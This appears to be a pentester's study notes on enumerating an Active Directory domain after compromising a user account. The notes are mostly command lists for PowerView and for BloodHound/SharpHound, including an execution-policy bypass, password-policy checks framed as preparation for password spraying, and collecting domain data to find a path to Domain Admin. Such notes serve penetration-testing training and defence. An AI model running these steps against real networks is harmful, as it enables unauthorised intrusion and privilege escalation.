 # Post-Compromise Enumeration

- We compromised a user what can we do with it
- How can we get Domain Admin

## Powerview

- Get it from [here](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1) and put it in the compromised machine
- From a cmd in the target: `powershell -ep bypass` 
- Launch Powerview: `. .\powerview.ps1`
- Get info on the Domain Controller: `Get-NetDomain`
- Check policies: `Get-DomainPolicy`
- Policies in System Access: `(Get-DomainPolicy)."systemAccess"` (e.g.: we get info about password policy and minimum length so min size if we want to password spray)
- Info about the users `Get-NetUser`
- Get only usenames `Get-NetUser | select cn` (e.g.: will output Jessica Jones)
- Get only sam account name: `Get-NetUser | select samaccountname` (e.g.: will output jjones)
- Get only description: `Get-NetUser | select description` (e.g.: will output a description if provided by sysadmn or a default one)
- See all the properties a user have: `Get-UserProperty`
- Get more details for example password last set: `Get-UserProperty -Properties pwdlastset`
- Get more details for example logoncount: `Get-UserProperty -Properties logoncount`
- See if users have entered bad passwd: `Get-UserProperty -Properties badpwdcount`
- List all the computers in the Domain: `Get-NetComputer`
- Same but with much more info: `Get-NetComputer -FullData`
- Filter this load of data with specific info: `Get-NetComputer -FullData | select OperatingSystem`
- Get info on groups: `Get-NetGroup`
- Filter for a specific GroupName: `Get-NetGroup -GroupName "Domain Admins" `
- Filter on GroupName with a wildcard: `Get-NetGroup -GroupName *admin* `
- Get users from a specific group: `Get-NetGroup -GroupName "Domain Admins" `
- Get smb shared in the network: `Invoke-ShareFinder`
- Get group policies: `Get-NetGPO`
- Filter the info: `Get-NetGroup -GroupName "Domain Admins" `

### Powerview - Resources

- [PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

## BloodHound

### Setup and Install

- Install: `sudo apt install bloodhound`
- Launch neo4j for Setup: `neo4j console`
- Open the link provided by neo4j, connect with default creds: `neo4j:neo4j` 
- Change the password
- From the console launch `bloodhound`
- Connect with the creds you just set up in neo4j

### Grabbing Data to feed Bloodhound

- Download and setup an injector for instance invoke-bloodhound for powershell, we can use [sharphound](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
- Put Sharphound in your target machine
- From the cmd of your target run: `powershell -ep bypass`
- Run Sharphound: `. .\SharpHound.ps1`
- Now we can invoke-bloodhound to collect data: `Invoke-BloodHound -CollectionMethod All -Domain DOMAIN.local -ZipFilename data.zip`
- Copy the zip file in your attacking machine
- Click on upload data and double click on the zip file
- In Analysis we can now click to Find all Domains
- We can also find the shortest path to the domain admins
- We want to find boxes where a domain admin is logged in.
